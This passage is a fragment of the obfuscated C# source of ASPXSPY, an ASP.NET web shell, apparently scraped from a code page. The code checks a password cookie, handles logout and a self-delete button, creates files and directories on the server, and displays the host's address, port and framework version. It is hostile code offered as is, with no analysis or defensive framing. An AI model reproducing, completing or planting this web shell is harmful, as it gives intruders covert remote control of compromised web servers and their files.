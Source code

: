 }
else if(tkI.StartsWith("Bin_CFile"))
{
YByN(Ebgw(tkI.Replace("Bin_CFile","")),VqV);
}
}
}
else
{
PBZw();
}
}
public bool pdo()
{
if(Request.Cookies[vbhLn]==null)
{
tZSx();
return false;
}
else
{
if (Request.Cookies[vbhLn].Value != Password)
{
tZSx();
return false;
}
else
{
return true;
}
}
}
public void tZSx()
{
ljtzC.Visible=true;
ZVS.Visible=false;
}
protected void YKpI(object sender,EventArgs e)
{
Session.Abandon();
Response.Cookies.Add(new HttpCookie(vbhLn,null));
tZSx();
}
public void PBZw()
{
ZVS.Visible=true;
ljtzC.Visible=false;
Bin_Button_CreateFile.Attributes["onClick"]="var filename=prompt('Please input the file name:','');if(filename){Bin_PostBack('Bin_Createfile',filename);}";
Bin_Button_CreateDir.Attributes["onClick"]="var filename=prompt('Please input the directory name:','');if(filename){Bin_PostBack('Bin_Createdir',filename);}";
Bin_Button_KillMe.Attributes["onClick"]="if(confirm('Are you sure delete ASPXSPY?')){Bin_PostBack('hae','');};";
Bin_Span_Sname.InnerHtml=Request.ServerVariables["LOCAL_ADDR"]+":"+Request.ServerVariables["SERVER_PORT"]+"("+Request.ServerVariables["SERVER_NAME"]+")";
Bin_Span_FrameVersion.InnerHtml="Framework Ver : "+Environment.Version.ToString();
if (AXSbb.Value==string.Empty)
{
AXSbb.Value=OElM(Server.MapPath("."));
}
Bin_H2_Title.InnerText="File Manager >>";
krIR(AXSbb.Value);
}
public void fhAEn()